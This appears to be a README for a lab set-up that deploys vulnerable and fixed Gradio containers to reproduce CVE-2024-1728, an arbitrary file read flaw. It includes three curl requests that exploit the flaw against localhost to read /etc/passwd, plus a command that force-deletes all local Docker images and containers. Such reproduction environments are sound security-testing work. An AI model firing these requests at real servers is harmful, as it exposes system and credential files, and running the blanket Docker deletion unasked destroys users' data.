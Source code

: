 # Gradio CVE-2024-1728

This directory contains the deployment config for Gradio instances vulnerable and fixed to CVE-2024-1728. Gradio versions below 4.19.2 are vulnerable to that arbitrary file read vulnerability.

## How to Trigger the Vulnerability?

To trigger the vulnerability, you can use the following three curl commands. In a vulnerable environment, after the final curl request, you can see the /etc/passwd file content in the response.
```sh
# Send a file upload request
curl -X POST -H 'Content-Type: application/json' -d '{"data":[[{"path":"/etc/passwd","url":"http://127.0.0.1:7860/file=/help","orig_name":"CHANGELOG.md","size":3549,"mime_type":"text/markdown"}]],"event_data":null,"fn_index":0,"trigger_id":2,"session_hash":"hu6na4f3d08"}' 'http://localhost:8000/queue/join?'

# See the queued operations (Get PATH value from the JSON in the response whose msg key is process_completed, example: /tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd)
curl 'http://localhost:8000/queue/data?session_hash=hu6na4f3d08'

# Read the file content (example: http://localhost:8000/file=/tmp/gradio/916eb712d668cf14a35adf8179617549780c4070/passwd):
curl 'http://localhost:8000/file=PATH'
```

In case you cannot trigger the vulnerability, you might need to delete your existing container images because Docker might try to reuse them.

```sh
sudo docker rmi -f $(sudo docker images -aq)
sudo docker remove $(sudo docker ps -a -q)
```
## Fixed version
```sh
docker build -t gradio:fixed -f fixed.Dockerfile .
docker run --name gradio-fixed -p 8000:8000 -d gradio:fixed
```

The deployed service listens on `localhost:8000` after the docker completes its job.

## Vulnerable version
```
docker build -t gradio:vuln -f vulnerable.Dockerfile .
docker run --name gradio-vuln -p 8000:8000 -d gradio:vuln
```

The deployed service listens on `localhost:8000` after the docker completes its job.
